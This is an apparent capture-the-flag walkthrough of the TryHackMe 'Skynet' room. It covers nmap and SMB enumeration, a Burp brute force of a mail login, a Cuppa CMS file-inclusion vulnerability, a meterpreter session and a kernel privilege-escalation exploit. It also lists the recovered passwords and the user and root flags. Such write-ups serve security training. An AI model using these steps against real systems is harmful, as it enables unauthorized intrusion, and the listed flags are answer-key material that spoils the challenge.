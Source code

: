 ```yaml
---
title: Skynet

date: 2022-06-22 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, enum4linux, smb, linux, gobuster, burp]
---
```


Hacking a vulnerable Terminator themed Linux machine.

[https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

![](/assets/skynet.webp)

* * *

## Task 1 - Deploy the Vulerable Machine

1. Initial Nmap Scans

```shell
sudo nmap -Pn -sS -T4 -p- 10.10.70.205 -oN nmap_initial.txt
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
````

```shell
sudo nmap -sC -sV -T4 10.10.70.205 -p22,80,110,139,143,445 -oN nmap_second.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 10:06 PDT
Nmap scan report for 10.10.70.205
Host is up (0.18s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL PIPELINING CAPA TOP UIDL AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities ENABLE Pre-login LITERAL+ ID LOGIN-REFERRALS SASL-IR post-login IMAP4rev1 have OK IDLE more listed LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-22T17:06:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-06-22T12:06:34-05:00
```

## Enum4Linux

- ``enum4linux -a 10.10.70.205 -R 139,445``
- Notes from Scan:

```shell
[+] Got OS info for 10.10.70.205 from srvinfo:                                                          SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu) 
 =======================================( Users on 10.10.70.205 )=======================================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:                                                                                              
user:[milesdyson] rid:[0x3e8]
==================================( Share Enumeration on 10.10.70.205 )=================================
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

        Server               Comment
        ---------            -------
        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.10.70.205                                                            //10.10.70.205/print$   Mapping: DENIED Listing: N/A Writing: N/A                                                                                                 
//10.10.70.205/anonymous        Mapping: OK Listing: OK Writing: N/A
//10.10.70.205/milesdyson       Mapping: DENIED Listing: N/A Writing: N/A

[E] Cant understand response                                                                                                                                            
NT_STATUS_OBJECT_NAME_NOT_FOUND listing 

//10.10.70.205/IPC$     Mapping: N/A Listing: N/A Writing: N/A

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                                                                 
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
```

## SMB Client

- ``smbclient //10.10.70.205/anonymous -U nobody -p 139 --workgroup=SKYNET`` - log into smbclient with user nobody 
- get all the loot ``log1.txt`` is a wordlist maybe something useful.

Connect to miles SMB

```shell
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
mget *
```

## Gobuster

- gobuster dir -u http://10.10.70.205:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 100 -e

```shell
http://10.10.70.205:80/admin                (Status: 301) [Size: 312] [--> http://10.10.70.205/admin/]
http://10.10.70.205:80/css                  (Status: 301) [Size: 310] [--> http://10.10.70.205/css/]  
http://10.10.70.205:80/js                   (Status: 301) [Size: 309] [--> http://10.10.70.205/js/]   
http://10.10.70.205:80/config               (Status: 301) [Size: 313] [--> http://10.10.70.205/config/]
http://10.10.70.205:80/ai                   (Status: 301) [Size: 309] [--> http://10.10.70.205/ai/]    
http://10.10.70.205:80/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.70.205/squirrelmail/]
```


## Answer the questions below

**What is Miles password for his emails?**

- Capture in burpsuite proxy and insert log1.txt for password list ``cyborg007haloterminator``
- here we get milesdysons new samba password ``)s{A&2Z=F^n_E.B``

**What is the hidden directory?**

- checking the /notes/ folder in miles samba i found ``important.txt``
- leads us to ``/45kra24zxs28v3yd``
- which enumetation leads us to ``/45kra24zxs28v3yd/administrator``
- using searchsploit for cuppa we can find vulns 
- ``cat /usr/share/exploitdb/exploits/php/webapps/25971.txt``
- php code injection @ ``/alerts/alertConfigField.php?urlConfig=``

- dump for the cuppa config

```php
<?php 
   class Configuration{
      public $host = "localhost";
      public $db = "cuppa";
      public $user = "root";
      public $password = "password123";
      public $table_prefix = "cu_";
      public $administrator_template = "default";
      public $list_limit = 25;
      public $token = "OBqIPqlFWf3X";
      public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      public $upload_default_path = "media/uploadsFiles";
      public $maximum_file_size = "5242880";
      public $secure_login = 0;
      public $secure_login_value = "";
      public $secure_login_redirect = "";
   } 
?>
```

sql

**What is the vulnerability called when you can include a remote file?**

- remote file inclusion
- ``/etc/issue`` - Ubuntu 16.04.6 LTS 
- ``https://www.exploit-db.com/exploits/45010 ``

**What is the user flag?**

- 7ce5c2109a40f958099283600a9ae807

**What is the root flag?**

1. run linpeas.sh for enumeration

```shell
meterpreter > sysinfo
Computer     : 10.10.221.179
OS           : Ubuntu 16.04 (Linux 4.8.0-58-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

2. compile and run https://www.exploit-db.com/exploits/44654
3. travel to /root/

- 3f0372db24753accc7179a282cd6a949


* * * 